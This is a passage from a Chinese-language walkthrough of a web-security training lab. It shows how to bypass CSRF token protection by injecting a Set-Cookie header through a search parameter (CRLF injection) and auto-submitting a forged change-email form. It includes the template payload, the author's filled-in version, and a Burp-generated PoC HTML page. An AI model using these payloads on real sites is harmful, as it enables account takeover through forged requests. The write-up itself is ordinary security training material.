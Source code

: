 <img src=".\图片\Snipaste_2023-07-29_11-30-47.png" alt="Snipaste_2023-07-29_11-30-47" style="zoom:80%;" />

创建并托管概念利用验证，确保包含CSRF令牌。应通过电子邮件更改请求创建利用漏洞攻击

替换为以下代码来注入Cookie（需要csrfKey）

```cobol
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
 
 
我的是：
<img src="https://0aee00c5048716398052b22e00920065.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Fd6QjwcbUQdCL7MTeEJG1PEXw6zex2su%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

#### 第三步

生成插入的poc，将script标签中的内容换为上面的

修改后

```
换完后：
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aee00c5048716398052b22e00920065.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="333333&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="wNQEMSiAHey0s5Mb7yMG7YZTWGxtpvQA" />
      <input type="submit" value="Submit request" />
    </form>
        <img src="https://0aee00c5048716398052b22e00920065.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Fd6QjwcbUQdCL7MTeEJG1PEXw6zex2su%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
